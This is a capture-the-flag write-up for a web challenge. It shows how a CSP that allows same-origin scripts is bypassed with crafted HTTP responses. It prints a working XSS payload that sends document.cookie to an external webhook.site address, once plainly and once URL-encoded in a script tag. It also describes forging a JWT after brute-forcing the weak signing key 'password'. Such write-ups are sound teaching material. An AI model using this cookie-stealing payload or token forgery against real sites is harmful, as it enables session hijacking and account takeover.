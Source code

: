 # learn HTTP better
## Solution
We can produce any HTTP response, just url-encode it and pass to the input to get the url to produce your HTTP response.

Here there is a CSP which allows script with source same as host is allowed, we can formulate the javascript payload and pass the URL to js as the `src` ro the script.

```
HTTP/1.1 200 OK
Content-type: text/javascript
Content-length: 85

fetch(`https://webhook.site/7c0b4f46-d927-4d8e-8601-3d70d049fe4c?${document.cookie}`)
```

```
HTTP/1.1 200 OK
Content-type: text/html
Content-length: 267

<script src="http://localhost:5001/resp?body=HTTP%2F1.1%20200%20OK%0D%0AContent-type%3A%20text%2Fjavascript%0D%0AContent-length%3A%2085%0D%0A%0D%0Afetch%28%60https%3A%2F%2Fwebhook.site%2F7c0b4f46-d927-4d8e-8601-3d70d049fe4c%3F%24%7Bdocument.cookie%7D%60%29"></script>
```

![hook response](imgs/hook.png)

We get the token in the request, after bruting the signing key, we find it as `password`

changing the id to 2 and sigining the payload, we request to `/flag` with cookie as `token=<new_token>`, we get the flag

## Flag
`pearl{w0w_7hat_w4s_0ut_Of_th3_boX}`